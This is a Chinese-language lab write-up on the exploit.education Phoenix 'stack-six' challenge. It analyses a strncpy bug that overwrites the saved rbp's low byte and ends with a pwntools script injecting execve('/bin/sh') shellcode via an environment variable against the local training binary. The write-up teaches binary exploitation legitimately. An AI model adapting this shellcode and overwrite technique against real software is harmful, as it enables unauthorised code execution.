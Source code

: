 ```yaml
---

title: "[pwn笔记3]stack-six(phoenix)"
urlname: "[pwn笔记3]"

date: April 30, 2023 10:11 PM
---
```


## 听说把这段写进~/.gdbinit里面会让栈的情况更加真实（在调试的时候）

（参考[https://n1ght-w0lf.github.io/binary exploitation/stack-six/](https://n1ght-w0lf.github.io/binary%20exploitation/stack-six/)）

```bash
unset env LINES
unset env COLUMNS
set env _ /opt/phoenix/amd64/stack-six
```

## 然后这是本题源码

```c
/*
 * phoenix/stack-six, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * Why do fungi have to pay double bus fares? Because they take up too
 * mushroom.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *what = GREET;

char *greet(char *who) {
  char buffer[128];
  int maxSize;

  maxSize = strlen(who);
  if (maxSize > (sizeof(buffer) - /* ensure null termination */ 1)) {
    maxSize = sizeof(buffer) - 1;
  }

  strcpy(buffer, what);
  strncpy(buffer + strlen(buffer), who, maxSize);

  return strdup(buffer);
}

int main(int argc, char **argv) {
  char *ptr;
  printf("%s\n", BANNER);

#ifdef NEWARCH
  if (argv[1]) {
    what = argv[1];
  }
#endif

  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    // This style of comparison prevents issues where you may accidentally
    // type if(ptr = NULL) {}..

    errx(1, "Please specify an environment variable called ExploitEducation");
  }

  printf("%s\n", greet(ptr));
  return 0;
}
```

## 理论

其中greet函数有两点错误：

- strncpy函数不会自动在末尾添加\0，而strdup是根据\0来判断结尾的

- strncpy的起始地址是buffer + GREET的长度，但复制长度确是maxSize，导致了末尾有个跟GREET一样长的区域可以溢出（好像减了1）。

调试一下发现，覆盖不到返回地址，但是可以覆盖到压进栈里的rbp的最后两位。

众所周知（不知道的看这个<https://zhuanlan.zhihu.com/p/27339191>），进入函数时会执行：

```nasm
call xxx
;相当于
;push $+1
;jmp xxx
push rbp
mov rbp, rsp
sub rsp, xxx
```

而函数返回时执行的

```nasm
leave
ret
```

相当于

```nasm
mov rsp, rbp
pop rbp
pop rip
```

当我们把greet函数栈里面存着的（前）rbp改为了x。

那么`*x`就会变成main函数的栈底，`*x+8`就会变成main函数的返回地址。

## 理论存在，实践开始

gdb调试一下，能改的范围在：0x7fffffffe500~0x7fffffffe5ff

用这个命令看看这个范围里都有什么东西

```
x/32xg 0x00007fffffffe500
```

顺便确定一下我们输入的东西在哪。（注意不在栈的范围的东西不能要了（存疑），所以我们搜环境变量）

```
(gdb) grep ExploitEducation=
[+] Searching 'ExploitEducation=' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffeee5 - 0x7fffffffef1c  →   "ExploitEducation=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
```

去掉开头，确定我们输入的范围

```
>>> hex(0xeee5+len("ExploitEducation="))
'0xeef6'
>>> hex(0xeee5+126)
'0xef63'
```

回到之前看的范围（好像这样写顺序不太对，不管了）

`0x7fffffffe5c8`里正好是`0x00007fffffffeef6`，你说巧不巧

```python
from pwn import *

shell = ssh("user", "localhost", password="user", port=2222)
shellcode = b'\x90'*20
shellcode += b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
shellcode += b"A"*(126-len(shellcode))+b'\xc0'

sh = shell.run("/opt/phoenix/amd64/stack-six", env={"ExploitEducation": shellcode})
print(sh.recvline())
sh.interactive()
```

好了。

![]([pwn笔记3]%2073a412be24d94419b5e23f937cfdf3af-img/2023-05-01-22-22-48-image.png)
